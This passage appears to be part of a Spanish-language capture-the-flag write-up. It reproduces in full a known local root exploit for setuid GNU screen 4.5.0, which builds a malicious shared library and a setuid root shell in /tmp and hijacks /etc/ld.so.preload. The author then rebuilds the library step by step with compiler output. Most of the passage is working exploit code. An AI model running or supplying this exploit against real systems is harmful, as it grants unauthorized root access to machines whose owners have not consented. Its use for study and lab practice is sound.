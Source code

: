 ```bash
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```
Me fui guiando leyendo el script para lograr explotar el binario.
```bash
$ nano libhax.c
$ cat libhax.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
Cree el libhax.c y lo compilo.
```bash
$ gcc -fPIC -shared -ldl -o libhax.so libhax.c     
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
$ ls
```